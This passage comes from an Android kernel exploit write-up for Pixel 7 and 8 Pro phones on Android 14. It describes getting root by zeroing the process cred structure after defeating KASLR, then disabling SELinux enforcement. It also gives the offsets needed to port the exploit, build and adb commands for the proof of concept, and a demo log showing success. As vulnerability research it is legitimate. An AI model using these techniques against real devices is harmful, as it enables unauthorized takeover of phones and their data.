 As a result, we are able to perform unlimited read/write operations on any kernel memory address without having to recurrently go through the spray process.

### Getting root
Now that I have a strong arbitrary read/write primitive, I just looked through all the `struct page` in the `VMEMMAP_START` array to determine the kernel text starting address using the technique outlined in the [Interrupt Labs](https://www.interruptlabs.co.uk/articles/pipe-buffer) blog post. Then I realized that `init_task` is nulled out in _Android November Security Updates_, so I just used `kthreadd_task` instead. Having `kthreadd_task` kernel address allowed me to walk the `task->tasks` list and obtain my own `current` task kernel address, then zero out the `cred` structure to achieve root privileges.

Later, I realized scanning all the page addresses was unnecessary because I already had the anon_pipe_buf_ops kernel text address from a pipe_buffer object. With this information, I could deduce the kernel text base address, effectively bypassing KASLR.

### Disable SELinux
The exploit disables SELinux also, with the kernel text base address, I just need to find the `selinux_state` global structure location and then zero out the `.enforcing` value.

## Proof of Concept
The proof of concept accompanying the report was tested on Pixel 7 and 8 Pro devices running Android 14 with the October and November ASBs, achieving a success rate of nearly 100%.
It's also important to mention that the exploit will not work out of the box in other devices due to the use of some hardcoded offsets. In order to add support for a new device, one must have to provide the following:
- `kthreadd_task` offset from the kernel base address.
- `selinux_state` offset from the kernel base address.
- `task_struct->cred` , `task_struct->pid` and `task_struct->tasks` structure offsets.
- `anon_pipe_buf_ops` offset from the kernel base address.

### Compilation 
To compile the exploit as a standalone binary use the following command, then use `adb shell` to run it:
```sh
$ aarch64-linux-androidXX-clang++ -static-libstdc++ -w -Wno-c++11-narrowing -DUSE_STANDALONE -o poc poc.cpp -llog
$ adb push poc /data/local/tmp/
$ adb shell /data/local/tmp/poc
```
You can also run the exploit via an Android Studio App by embeding this directory with it and make sure to disable the useless C++ warnings by adding `-w -Wno-c++11-narrowing` to the cmake file.

### Demo
```shell
$ adb logcat  |grep -i EXPLOIT
11-28 16:04:12.500  7989  7989 E EXPLOIT : [+] Target device: 'google/husky/husky:14/UD1A.231105.004/11010374:user/release-keys' 0xa9027bfdd10203ff 0xa90467faa9036ffc
11-28 16:04:15.563  7989  7989 E EXPLOIT : [+] Got the kcpu_id (0) kernel address = 0xffffff8901390000  from context (0x0)
11-28 16:04:18.441  7989  7989 E EXPLOIT : [+] Got the kcpu_id (255) kernel address = 0xffffff89b0bf8000  from context (0xff)
11-28 16:04:18.442  7989  7989 E EXPLOIT : [+] Found corrupted pipe with size 0xfff
11-28 16:04:18.442  7989  7989 E EXPLOIT : [+] SUCCESS! we have a fake pipe_buffer (0)!
11-28 16:04:18.444  7989  7989 E EXPLOIT : 10 00 39 01 89 FF FF FF  10 00 39 01 89 FF FF FF  | ..9.......9.....
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 B0 CD 12 C0 FF FF FF  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.444  7989  7989 E EXPLOIT : 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
11-28 16:04:18.445  7989  7989 E EXPLOIT : [+] Freeing kcpu_id = 0 (0xffffff8901390000)
```